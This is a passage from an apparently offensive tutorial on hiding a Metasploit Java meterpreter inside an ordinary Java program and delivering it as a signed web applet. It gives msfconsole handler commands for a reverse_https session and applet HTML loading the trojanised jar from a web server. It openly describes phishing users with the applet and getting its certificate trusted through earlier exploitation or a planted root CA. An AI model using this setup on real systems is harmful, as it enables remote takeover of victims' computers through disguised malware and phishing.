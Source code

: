 After all these settings have been setup, you should be able to run your Java program from Netbeans. You should get your normal java program running along with Metasploit running in the background.

### Setting up msfconsole

From the msfconsole, use the following to catch the java meterpreter:

```
use exploit/multi/handler
set payload java/meterpreter/reverse_https
set lhost IP_Address
set lport 443
set exitonsession false
exploit -j -z
```

### Web Applet Compiling

Now to get it working for web applet. After adding the metasploit codebase to the project, fixing the errors, and testing it, we need to deploy it to the web server.

Compile the latest build for your project and goto the dist directory. Copy all the files there. Should be:

launch.html
launch.jnlp
newProject.jar
README.TXT
Copy these files to your apache2/nginix server. For Apache2, copy these files under /var/www/html. Then create/modify your index.html file with the following content:

```html
<applet id="newProject" width="400" height="800" codebase="http://192.168.1.5" archive="newProject.jar" code="newProject.webApplet">
</applet>
```


After all of this is setup, you can now phish users with a signed Java Applet. Make sure that the certificate that was used in the signing is trusted by the users (By previous exploitation and deploying your own root CA, or by using a trusted vendor of code signing).
Note: If you need to clear out the java cache, follow the instructions at https://www.java.com/en/download/help/plugin_cache.xml.